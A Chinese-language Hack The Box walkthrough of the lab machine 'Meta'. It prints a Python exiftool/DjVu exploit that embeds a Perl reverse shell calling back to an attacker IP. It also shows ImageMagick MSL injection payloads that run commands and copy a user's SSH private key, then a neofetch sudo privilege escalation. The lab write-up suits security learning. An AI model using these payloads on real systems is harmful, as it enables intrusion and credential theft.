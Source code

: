 ```yaml
---
title: Meta
date: 2022-02-28 18:03:59
tags: Hack The box
categories: 文件上传漏洞
---
```


## 信息收集
发现目标主机只开放了ssh和web服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/e44de3ff9ec249158e313f30d95c73ee.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
当我们访问web主页时，发现只是一个很普通的apache搭建的页面
![在这里插入图片描述](https://img-blog.csdnimg.cn/5faebd3ecae84cfcb3b00eacdf9fdfc5.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

目录扫描貌似好像也没发现什么有价值的信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/1e7e687ac113488b8fb14fa19ed5a61d.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

什么发现也没有，当我们扫描子域名时，发现了一个子域
![在这里插入图片描述](https://img-blog.csdnimg.cn/1314b6048efc42bca44cf2435e76decf.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
当我们访问这个子域时，发现是一个文件上传的点。经过反复测试，初步断定它对上传内容进行了仔细的检查，任何不符合图片特征的文件都会被过滤掉
![在这里插入图片描述](https://img-blog.csdnimg.cn/22c1b5eabb3e4ce09a79adbcb78671b9.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那我们尝试上传一张正常的图片试试，这个格式是否很眼熟？对的，这是exiftool工具的输出格式
![在这里插入图片描述](https://img-blog.csdnimg.cn/2eeabd15c6a041ff8ac20e97e9fac527.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/63c038ce761e41d3b3cc235f3354e1b6.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

## 漏洞利用
说实话这里是我自己本人没想到，可能是我自己的经验不太够吧。这里我们要找的是exiftool对应的漏洞，对的没想到吧，我也是参考了别人的意见才知道的。这里已经披露出了对应的漏洞编号了
![在这里插入图片描述](https://img-blog.csdnimg.cn/79945371d22b48d38a108e4b60f39dbb.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我选择了第二个网址上的漏洞利用脚本，因为上面那个依赖问题太复杂了。首先我们先生成一个图片马文件，将脚本文件的IP和监听端口改成我们对应的IP和端口

```python
#!/bin/env python3

import base64
import subprocess

ip = '10.10.14.60'
port = '4444'

payload = b"(metadata \"\c${use MIME::Base64;eval(decode_base64('"


payload = payload + base64.b64encode( f"use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));if(connect(S,sockaddr_in({port},inet_aton('{ip}')))){{open(STDIN,'>&S');open(STDOUT,'>&S');open(STDERR,'>&S');exec('/bin/sh -i');}};".encode() )

payload = payload + b"'))};\")"


payload_file = open('payload', 'w')
payload_file.write(payload.decode('utf-8'))
payload_file.close()


subprocess.run(['bzz', 'payload', 'payload.bzz'])
subprocess.run(['djvumake', 'exploit.djvu', "INFO=1,1", 'BGjp=/dev/null', 'ANTz=payload.bzz'])
subprocess.run(['exiftool', '-config', 'configfile', '-HasselbladExif<=exploit.djvu', 'image.jpg']) 

```
![在这里插入图片描述](https://img-blog.csdnimg.cn/fac6e927ad1940cc90f1a379e3b299c5.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
上传image.jpg木马图片后，我们得到了www-data用户的权限
![在这里插入图片描述](https://img-blog.csdnimg.cn/9380c7ea757846259f3151ada423caf7.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
但是当我们进入thomas用户的`.ssh`目录时，发现没有权限，并且user.txt文件也没有权限查看
![在这里插入图片描述](https://img-blog.csdnimg.cn/7888820403bb4a8382561e6bd9c30d71.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
查看主机的内核版本，发现是64位的Linux主机
![在这里插入图片描述](https://img-blog.csdnimg.cn/cb52633575a546c2817023ca0d7b04b1.png)
我们可以尝试上传pspy64这个脚本进行探测，pspy 是一个命令行工具，旨在侦听进程而无需 root 权限。它允许您在执行时查看其他用户、cron 作业等运行的命令。发现了一个`convert_images.sh`脚本
![在这里插入图片描述](https://img-blog.csdnimg.cn/062aec9a84b14b5190b0501765926e0e.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们查看一下这个脚本的内容，发现它是先进入到对应的目录中，然后再运行mogrify这个程序将发现的文件转换为png文件，最后杀死这个进程。
![在这里插入图片描述](https://img-blog.csdnimg.cn/ac6aaed6b8334939a293bfd860e98975.png)
我们可以查看一下mogrify这个程序的版本，发现是`7.0.10-36`
![在这里插入图片描述](https://img-blog.csdnimg.cn/073f7d8415794159b62d0729a8c746f0.png)
在网上搜索到对应的漏洞编号是`CVE-2016-3714`
![在这里插入图片描述](https://img-blog.csdnimg.cn/3b8c9945b1b34bdcb9bf0ab65d8dc735.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
利用的方法是上传一个poc.svg文件到`/dev/shm`目录下，并将poc.svg文件复制到`/var/www/dev01.artcorp.htb/convert_images/`这个目录下，经过一段时间后会生成一个0wned文件，输出了用户名证明文件成功执行了包含的命令

```xml
<image authenticate='ff" `echo $(id)> /dev/shm/0wned`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/4c3e86599bf44cfc96a8a44f7ec80ac1.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那我们修改一下poc.svg里面的内容，尝试将`thomas`账户的密钥文件读取出来

```xml
<image authenticate='ff" `echo $(cat ~/.ssh/id_rsa)> /dev/shm/id_rsa`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```
成功读取密钥信息，我们可以开启一个http服务将id_rsa文件下载下来
![在这里插入图片描述](https://img-blog.csdnimg.cn/1e6d846d9e1f4541bfd05772e96373d6.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
重新编排一下顺序后，可以成功连接到thomas用户
![在这里插入图片描述](https://img-blog.csdnimg.cn/d92c5bb5b20846719f1eb0a4e5c57592.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 提权到ROOT
我们输入`sudo -l`命令，发现一个`neofetch`程序可以以root身份运行
![在这里插入图片描述](https://img-blog.csdnimg.cn/5e89769e71c5441f821d397997cab9ee.png)
我们尝试运行这个程序，输出是linux内核的基本信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/4e51200b476d4973853ae1f498c63e2b.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
既然这个程序可以利用，那么我们可以进入这个程序的配置文件中，更改其配置文件信息达到我们提权的目的。我们更改`/home/thomas/.config/neofetch`这个目录下的config.conf文件
![在这里插入图片描述](https://img-blog.csdnimg.cn/7383f86d421b435a81e6f2e51b8a4e7b.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
因为我们使用neofetch程序提权的时候，会保留XDG_CONFIG_HOME的环境变量，所以我们要将thomas.config导出到基本配置环境路径
![在这里插入图片描述](https://img-blog.csdnimg.cn/a0cb500158324ae88c35eb1c1f8d319f.png)
得到root权限
![在这里插入图片描述](https://img-blog.csdnimg.cn/f40946dc24a94472b51143eaebc4fbff.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 总结
总的来说，这个靶机还是相当有难度的。我后面提权部分基本也是照着别人的建议来做，真的实在是太难了。提权和漏洞利用的方法都是在红队攻防实战中非常常见的，能掌握对技术提升方面很有帮助。

